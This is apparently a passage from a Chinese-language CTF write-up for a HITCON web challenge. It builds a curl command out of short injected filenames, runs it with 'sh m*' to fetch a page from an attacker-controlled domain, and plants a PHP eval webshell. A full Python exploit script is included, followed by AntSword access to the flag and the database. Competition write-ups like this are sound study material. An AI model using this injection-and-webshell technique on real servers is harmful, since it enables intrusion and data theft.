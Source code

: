 这样sh m*后，会新建一个1文件。1文件内容是我们可控域名下的index.html.那么，我们只需要将index.html写成这样，就能在当前目录下构造一个一句话木马。(7d8fc845c741ce6a72fa592b394cf9f3是依据源码算出的哈希)

```
echo "<?php eval(\$_REQUEST['XXXX']);?>" > /www/sandbox/7d8fc845c741ce6a72fa592b394cf9f3/2.php
```

这样，我们就能在`http://52.199.204.34/sandbox/7d8fc845c741ce6a72fa592b394cf9f3/2.php`得到一个一句话木马。

Payload如下：


```Python
#!/usr/bin/python
# -*- coding: utf-8 -*-

import requests


def GetShell():
    url = "http://52.199.204.34/?cmd="
    requests.get("http://52.199.204.34/?reset=1")

    fileNames = ["cur\\", "l\\ \\", "na\\", "nb\\", "nc\\","xx.\\","xy\\","z\\>1"]

    for fileName in fileNames:
        createFileUrl = url + ">" + fileName
        print createFileUrl
        requests.get(createFileUrl)

    getShellUrl=url+"ls>m\\"
    print getShellUrl
    requests.get(getShellUrl)
    getShellUrl = url + "sh m*"
    print getShellUrl
    requests.get(getShellUrl)

    getShellUrl = url + "sh 1"
    print getShellUrl
    requests.get(getShellUrl)

    response=requests.get("http://52.199.204.34/sandbox/7d8fc845c741ce6a72fa592b394cf9f3/2")
    print response.content



if __name__ == "__main__":
    GetShell()
```

然后，利用蚁剑连接,可以在home目录找到flag在数据库中。

![baby1](https://moxiaoxi.info/img/post/hitcon/baby1.png)

再连接数据库，获取数据即可。
